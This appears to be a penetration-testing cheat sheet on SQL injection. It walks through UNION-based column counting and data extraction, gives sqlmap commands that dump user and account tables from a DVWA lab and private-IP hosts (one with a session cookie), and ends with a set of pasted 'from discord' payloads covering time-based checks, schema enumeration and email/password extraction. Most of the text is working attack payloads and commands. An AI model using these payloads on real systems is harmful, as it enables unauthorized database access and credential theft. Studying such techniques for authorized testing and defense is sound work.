 ```bash
Warning: mysql_fetch_array() expects parameter 1 to be mysql_result, boolean given in /var/www/view.php on line 32
```

* We can try with two fields: `' UNION SELECT null null; -- -` and three even to confirm that the original query only has two fields.
* Once we know how many fields are in the query it's time to test which fields are part of the output page.
* You can do that by injecting some known values and checking thee results in the output page, as in: `' UNION SELECT 'elsid1', 'elsid2'; -- -`.
* Now we can exploit the injection: `' UNION SELECT user(), 'elsid2'; -- -`.
* Not only `SELECT` queries are vulnerable.

## SQLMap

* Can detect and exploit SQL injections
* Needs to know the vulnerable URL and the parameter to test for a SQLi

```bash
sqlmap -u <URL> -p <injection parameter> [options]
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
sqlmap -u <url> --data=<POST string> -p id [options] # POST string as user=a&pass=a

# You can copy the POST string  from a request intercepted in Burp Suite
sqlmap -r file.req -p user
sqlmap -u 'http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=231&Submit=Submit#' --cookie="PHPSESSID=26faf41ffba440ce1346b8d8ca9408ac; security=low" -D dvwa -T users --dump

# --technique=U --> UNION based SQL injection technique
# --banner shows server's banner
# --flush-session

sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D awd -T accounts --dump
```

#### From discord \(to test\)

```sql
1' UNION SELECT 1-- -
3' AND sleep(5) -- -
SELECT 1, schema_name,3 FROM information_schema.schemata limit 1,1-- -
SELECT 1, table_name,3 FROM information_schema.tables WHERE table_schema=hotel limit 1,1-- -
SELECT 1, column_name,3 FROM information_schema.columns WHERE table_schema=hotel and table_name=room limit 1,1
SELECT 1, table_name,3 FROM information_schema.tables limit 1,1-- -
SELECT group_concat(email,0x3a,Password) from awd.accounts limit 1,1;
```

